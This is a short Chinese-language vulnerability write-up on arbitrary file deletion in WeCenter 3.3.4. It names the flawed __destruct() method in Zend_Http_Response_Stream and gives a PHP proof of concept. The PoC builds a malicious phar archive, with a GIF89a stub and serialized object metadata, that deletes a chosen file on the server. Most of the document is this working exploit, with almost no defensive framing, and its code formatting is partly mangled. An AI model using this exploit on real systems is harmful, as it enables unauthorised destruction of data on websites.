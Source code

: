 ```yaml
---
title: WeCenter 3.3.4 任意文件删除
id: zhfly3236
---
```


# WeCenter 3.3.4 任意文件删除

## 一、漏洞简介

## 二、漏洞影响

WeCenter 3.3.4

## 三、复现过程

### 任意文件删除

**system/Zend/Http/Response/Stream.php:__destruct()** 方法中存在任意文件删除。

![image](../img/9d05f8bed0e623be7b6ef22af5b64dc3.png)

### poc

```
<?php
class Zend_Http_Response_Stream
{
    protected $_cleanup;
    protected $stream_name;

```
public function __construct($stream_name)
{
    $this-&gt;_cleanup = true;
    $this-&gt;stream_name = $stream_name;
} 
```

}

$stream_name = ‘/var/www/html/wecenter334/shell.php’;

$evilobj = new Zend_Http_Response_Stream($stream_name);

// phar.readonly无法通过该语句进行设置: init_set(“phar.readonly”,0);

$filename = ‘poc.phar’;// 后缀必须为phar，否则程序无法运行

file_exists($filename) ? unlink($filename) : null;

$phar=new Phar($filename);

$phar->startBuffering();

$phar->setStub(“GIF89a<?php __HALT_COMPILER(); ?>”);

$phar->setMetadata($evilobj);

$phar->addFromString(“foo.txt”,“bar”);

$phar->stopBuffering(); `?>` 
```
